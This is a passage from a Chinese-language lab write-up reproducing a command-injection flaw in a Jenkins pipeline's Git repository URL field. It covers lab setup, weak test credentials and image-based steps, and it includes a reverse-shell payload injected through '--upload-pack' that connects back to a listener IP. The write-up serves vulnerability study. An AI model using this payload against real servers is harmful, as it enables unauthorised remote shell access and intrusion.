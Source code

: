 ![图片](https://ae01.alicdn.com/kf/Ufa3deeb1bf1d46679c24c093d88932a9d.jpg)

(24). 为test用户配置访问权限：

![图片](https://ae01.alicdn.com/kf/Uccba57bb3a5d4e278f3de0c62cf903cff.jpg)

(25). 还需要靶机本身安装git
```
yum -y install git
```
不安装在复现的时候会报错：
```
Failed to connect to repository : Error performing command: git ls-remote -h
```
此报错解决参考：
[https://www.cnblogs.com/cyleon/p/11159184.html](https://www.cnblogs.com/cyleon/p/11159184.html)

# 0x04: 漏洞复现：
提供账号：

用户名：test

密码：123456

(1). 使用拥有创建任务权限得账号登陆：

![图片](https://ae01.alicdn.com/kf/Uf3d138fe3b9140afaa1f0c3ae1d0c37fG.jpg)

(2). 创建一个新的任务：

![图片](https://ae01.alicdn.com/kf/U25338b71068545e6976900c8137c17fdS.jpg)

名称随便起一个，然后选择流水线，再点击确定即可创建：

![图片](https://ae01.alicdn.com/kf/Uc77d632f1e9c4ef084c0094cbd3360c3d.jpg)

选择流水线选项----->Pipeline script from SCM----->Git

然后在Repository URL对应的输入框输入 POC：

![图片](https://ae01.alicdn.com/kf/Ue8e1457603864fc0ab947d6a37486879K.jpg)

(3). 输入公开的poc即可：

![图片](https://ae01.alicdn.com/kf/Ufba33629db11478ea3ea624c62c2e20aZ.jpg)

可以看到命令成功执行

(4). 直接反弹shell：
```
--upload-pack="`bash -i >& /dev/tcp/172.26.1.156/6666 0>&1`"
```
![图片](https://ae01.alicdn.com/kf/U048e08d81665493480e4ad652e1579395.jpg)

(5). 关于该漏洞的利用脚本：
